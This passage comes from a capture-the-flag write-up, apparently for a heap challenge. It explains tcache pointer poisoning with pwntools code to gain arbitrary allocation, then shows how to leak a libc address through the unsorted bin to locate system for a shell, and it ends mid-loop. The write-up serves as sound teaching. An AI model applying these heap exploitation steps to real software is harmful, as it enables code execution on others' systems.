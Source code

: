 ```python
#horse 1 is the first horse, make it point to 0xdeadbeef00 instead of horse 0
cheat(1, pwn.p64(0xdeadbeef00 ^ ASLR) + b"\xff")

#examine our work
pwn.gdb.attach(p, "heap bins") 
time.sleep(2)
```
<br>
![parsing leaked data](images/leakedHeap.png)
<br>
Now libc recognizes what we are pointing to!
<br>
![we got libc to find where to write to](images/writeBeef.png)
<br>
Now that we can allocate chunks anywhere we want, we can get a shell!


###  NO LONGER REQUIRED: Leaking libc base

*NOTE: This section is no longer important for getting a shell so you may skip it. The only reason I included it was because its really long and I didn't want to delete it*

We know that we can leak free chunk pointers, but they all point to heap and we need to get the address of libc, how will we do that? Enter the unsorted bin! After the tcache bins for a specific size are full, newly freed chunks of that size will first go into the unsorted bin before libc decides where to put them. If more chunks get freed and they are next to chunks in the unsorted bin, they just get combined into bigger chunks (There is only one unsorted bin so chunks can be any size). If there is only one chunk in the unsorted bin, its forward pointer points towards internal libc structures. Thus, if we can get a horse to get a chunk that was originally in the unsorted bin, we can get it to leak an address within libc. We can use this address to calculate the libc base and get the addresses of all sorts of funny things like where **system** is. Below is some changes to our code.

```python
#malloc some chunks of same size
for i in range(9):
	print(f"adding horse {i}")
	addHorse(i, 256, b"\xff")

#free these chunks and put them in tcache
for i in range(8, -1, -1):
	print(f"removing horse {i}")
	removeHorse(i)

#ensure we have unsorted bin
pwn.gdb.attach(p, "heap bins")
time.sleep(2)

#these chunks are returned to us with metadata in them
#horses 0-6 are in tcache, horses 7-8 are in unsorted
for i in range(9):
```